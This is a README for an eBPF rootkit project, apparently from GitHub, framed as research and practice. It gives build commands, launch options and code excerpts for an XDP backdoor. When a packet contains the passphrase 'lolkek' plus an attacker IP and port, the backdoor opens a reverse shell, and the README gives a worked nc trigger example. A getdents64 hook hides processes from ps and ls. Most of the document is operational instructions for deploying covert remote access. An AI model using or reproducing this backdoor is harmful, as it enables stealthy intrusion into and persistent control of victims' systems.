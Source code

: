 # eBPF-rootkit
This project was done for research and practice with eBPF

This repository contains an eBPF rootkit that combines 2 main functions:

Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Build
### Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

## Usage

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```


To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.123.200 4444
```

![alt text](assets/poc.gif)

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

**main.go:**
```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

...
```

and the number of bytes received from tcp payload is equal to the number of characters sent for the backdoor. Now this number is equal to 27
```bash
lolkek 192.168.123.200 4444 #27 characters
```

**bpf.c:**
```C
//GET TCP DATA
unsigned char *tcpdata = (unsigned char *)tcp + tcp_header_bytes;

if ((void *)(tcpdata + 27) > data_end) { // <---
    return XDP_PASS;
}

// Reserve space in the ring buffer
void *ringbuf_space = bpf_ringbuf_reserve(&xdprb, tcp_header_bytes, 0);
if (!ringbuf_space) {
    return XDP_PASS;  // If reservation fails, skip processing
}

// Copy the TCP header bytes into the ring buffer
// Using a loop to ensure compliance with eBPF verifier
for (int i = 0; i < 27; i++) { // <---
    unsigned char byte = *((unsigned char *)tcpdata + i);
    ((unsigned char *)ringbuf_space)[i] = byte;
}
```

**To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell. And the number of bytes to be received.**

After changing the passphrase, you need to rebuild the project:

`go generate`

`go build -o ebpf-rootkit`